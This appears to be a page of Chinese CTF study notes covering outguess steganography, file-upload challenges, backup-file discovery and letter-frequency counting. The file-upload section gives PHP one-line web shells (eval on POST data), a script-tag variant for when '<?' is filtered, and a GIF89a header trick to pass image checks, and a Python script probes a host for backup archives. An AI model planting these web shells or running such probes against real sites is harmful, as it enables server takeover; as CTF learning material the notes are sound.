**outguess隐写**

```
outguess -k gemlove -r sheng_huo_zhao_zhao.jpg -t flag.txt

```

**文件上传**

```
在CTFweb题中关于文件类的题目经常会是这种文件上传漏送和文件包含漏洞一起使用，这时候就还是要合理利用方法，避免像我这样兜兜转转一大圈然后最后使用简单方法一样能做的出来。另外在这个题目中，关于使用的木马也是有要求的，不能使用最普遍使用的那个一句话木马进行图片木马的制作，像&lt;?php @eval($_POST['pass']);?&gt; 这个木马是没法办用的，也不是说没办法用，可以用但是最后菜刀连接不上我们的木马文件，原因是，在解析过程中&lt;和php都被过滤掉了，这就很麻烦，这是用我们换一种木马的写法：&lt;?=eval($_POST['shell']);这个木马最后是可以连接的。
当&lt;?被过滤时可以使用：&lt;script language="php"&gt;eval($_POST['cmd'])&lt;/script&gt;
当遇到这个时Don't lie to me, it's not image at all，可以考虑伪造一个gif文件的文件头GIF89a

```

**备份文件的爆破**

```
import requests

url = "http://ctf.dino209.cn:20058/" #网站地址
#组合形式
li1 = ['web', 'website', 'backup', 'back', 'www', 'wwwroot', 'temp']
li2 = ['tar', 'tar.gz', 'zip', 'rar']
number = 1
for i in li1:
    for j in li2:
        url_final = url + "/" + i + "." + j
        r = requests.get(url_final)
        print(r,' ',i,' ',j)
#查看最后的回显

```

**信息泄露题目**

```
can you find the source code of me?

备份文件下载(网站源码、bak文件、vim缓存、.DS_Store)

```

[参考文章](https://blog.csdn.net/bailuy/article/details/108502602?utm_medium=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.control&amp;depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.control)<br/> **高频字母**

```
import re

file = open('D:/Pycharm/3.9/CTF脚本/11.txt')
line = file.readlines()
file.seek(0,0)
file.close()

result = {}
for i in range(97,123):
	count = 0
	for j in line:
		find_line = re.findall(chr(i),j)
		count += len(find_line)
	result[chr(i)] = count
res = sorted(result.items(),key=lambda item:item[1],reverse=True)

num = 1
```